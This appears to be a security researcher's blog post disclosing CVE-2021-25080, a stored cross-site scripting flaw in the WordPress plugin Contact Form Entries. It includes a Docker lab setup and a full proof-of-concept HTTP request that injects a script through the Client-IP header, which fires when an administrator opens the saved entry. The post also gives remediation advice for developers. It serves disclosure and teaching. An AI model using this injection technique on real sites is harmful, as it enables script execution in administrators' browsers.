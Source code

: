 +++
title = 'CVE-2021-25080 – finding Cross-Site-Scripting vulnerabilities in headers'
date = 2021-07-02T09:44:23+02:00
tags = ["sec", "docker", "dsp", "hacking", "cve"]
draft = false
+++


A year ago I discovered a stored XSS in Contact Form Entries plugin. It is an interesting case of Cross-Site Scripting vulnerability in headers.

## Introduction
CRM Form Entries is a plugin that automatically saves form submissions from several WordPress forms:

[Database for Contact Form 7, WPforms, Elementor forms](https://wordpress.org/plugins/contact-form-entries/)
After a long time I finally received a CVE for this discovery that you can find on the specific of the website with all the other CVEs and Written Exploits.


## Setup Environment
I setup a Docker environment containing WordPress with the vulnerable plugin:
```
version: '3.8'
  services:
    wp:
      image: 'dockersecplayground/wp:5.6'
      stdin_open: true
      tty: true
      ports:
        - '11080:80'
        - '9000:9000'
      depends_on:
        - db
      environment:
        - WORDPRESS_DB_HOST=db
        - WORDPRESS_DB_USER=dsp
        - WORDPRESS_DB_PASSWORD=dsp
        - WORDPRESS_DB_NAME=wordpress
      volumes:
        - './xdebug.ini:/usr/local/etc/php/conf.d/xdebug.ini'
    db:
      image: 'dockersecplayground/mysql_dsp:latest'
      stdin_open: true
      tty: true
      environment:
        - MYSQL_DATABASE=wordpress
        - MYSQL_USER=dsp
        - MYSQL_PASSWORD=dsp
        - MYSQL_RANDOM_ROOT_PASSWORD=1
  networks: {}
```

I usually use VS Code to analyze the source code; it is great as it is possible to attach to running containers by using the Docker plugin and Remote Containers plugins.

## Vulnerability Description 
CRM Form Entries CRM is vulnerable to a Stored XSS in Client IP field.

When the user uploads a new form, CRM Form Entries checks for the client IP in order to save information about the user:

```
public function get_ip() //wp-content/plugins/contact-form-entries/contact-form-entries.php, line 1388
```

![alt text](/images/cve-form-entries.png)
The user can set an arbitrary “HTTP_CLIENT_IP” value, and the value is stored inside the database.
## Proof of Concept
Suppose we have the following form:

Intercept the POST request and insert the following Client-IP header:

```
POST /wp-json/contact-form-7/v1/contact-forms/1376/feedback HTTP/1.1 Accept: application/json, */*;q=0.1 Accept-Language: en-GB,en;q=0.5 Accept-Encoding: gzip, deflate Content-Type: multipart/form-data; boundary=---------------------------9885500162977152723644841236 Content-Length: 963 Connection: close Client-IP: <script>alert(/1/)</script> Cookie: vx_user=61c2ecea43ad6164016458635903967  -----------------------------9885500162977152723644841236 Content-Disposition: form-data; name="_wpcf7"  1376 -----------------------------9885500162977152723644841236 Content-Disposition: form-data; name="_wpcf7_version"  5.5.3 -----------------------------9885500162977152723644841236 Content-Disposition: form-data; name="_wpcf7_locale"  en_US -----------------------------9885500162977152723644841236 Content-Disposition: form-data; name="_wpcf7_unit_tag"  wpcf7-f1376-p1701-o1 -----------------------------9885500162977152723644841236 Content-Disposition: form-data; name="_wpcf7_container_post"  1701 -----------------------------9885500162977152723644841236 Content-Disposition: form-data; name="_wpcf7_posted_data_hash"  3e8ce0f47face5a3318813e733c3c774 -----------------------------9885500162977152723644841236 Content-Disposition: form-data; name="text-42"  Test -----------------------------9885500162977152723644841236--
```
The request is accepted, and the code navigates the section $_SERVER[‘HTTP_CLIENT_IP’]  , IP is injected and saved inside the database.When the administrator clicks on the entry element:


The XSS is triggered:
![alt text](/images/cve-trashentries.png)

## Recommendations for Pentesters
When you explore Cross-Site-Scripting bugs, always checks for inputs that are not usually used to be reflected in the output. When I was looking for vulnerabilities in the plugin, I looked at my IP address in View Section, so I looked for the entrypoint of the IP address in the database, and I found the get_ip() vulnerable function.


## Recommendations for Developers
Sanitize the user input by using safe libraries, or HTML escaping libraries. In WordPress it is possible to use `esc_html()` function (https://developer.wordpress.org/reference/functions/esc_html/). Otherwise, OWASP offers a great API developer: https://owasp.org/www-project-enterprise-security-api/https://owasp.org/www-project-enterprise-security-api/
















